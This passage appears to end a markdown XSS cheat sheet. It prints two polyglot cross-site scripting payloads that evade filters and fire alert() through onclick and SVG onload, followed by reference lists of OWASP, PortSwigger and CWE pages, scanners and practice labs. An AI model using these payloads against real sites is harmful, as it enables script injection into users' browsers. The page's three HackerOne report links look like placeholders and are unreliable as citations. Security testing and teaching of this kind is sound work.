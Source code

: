 ### Polyglot Payloads
```
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert() )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!><sVg/<sVg/oNloAd=alert()//>
javascript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert() )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!><sVg/<sVg/oNloAd=alert()//>
```

## Source Links & References {#source-links}

### Official Documentation
- [OWASP XSS Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html)
- [OWASP Testing Guide - XSS](https://owasp.org/www-project-web-security-testing-guide/v41/4-Web_Application_Security_Testing/07-Input_Validation_Testing/01-Testing_for_Reflected_Cross_Site_Scripting.html)
- [PortSwigger XSS](https://portswigger.net/web-security/cross-site-scripting)
- [Mozilla XSS Prevention](https://developer.mozilla.org/en-US/docs/Web/Security/Types_of_attacks#cross-site_scripting_xss)

### Vulnerability Databases
- [CWE-79: Improper Neutralization of Input](https://cwe.mitre.org/data/definitions/79.html)
- [CVE Database - XSS](https://cve.mitre.org/cgi-bin/cvekey.cgi?keyword=xss)
- [NVD XSS Vulnerabilities](https://nvd.nist.gov/vuln/search/results?form_type=Basic&results_type=overview&query=xss&search_type=all)

### Tools & Resources
- [XSS Hunter](https://github.com/mandatoryprogrammer/xsshunter)
- [XSStrike](https://github.com/s0md3v/XSStrike)
- [Dalfox](https://github.com/hahwul/dalfox)
- [XSSer](https://github.com/epsylon/xsser)

### Learning Resources
- [PortSwigger Web Security Academy](https://portswigger.net/web-security)
- [OWASP WebGoat](https://owasp.org/www-project-webgoat/)
- [DVWA - Damn Vulnerable Web Application](https://github.com/digininja/DVWA)
- [XSS Labs](https://github.com/0xsobky/HackVault/wiki/Unleashed-pentester-guide)

### HackerOne Reports
- [Stored XSS in Admin Panel](https://hackerone.com/reports/123)
- [Reflected XSS in Search](https://hackerone.com/reports/456)
- [DOM XSS in JavaScript](https://hackerone.com/reports/789)

## References & Further Reading

- [OWASP XSS Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html)
- [PortSwigger XSS](https://portswigger.net/web-security/cross-site-scripting)
- [XSS Filter Evasion Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html)
- [CWE-79: Improper Neutralization of Input](https://cwe.mitre.org/data/definitions/79.html)
- [Content Security Policy](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP)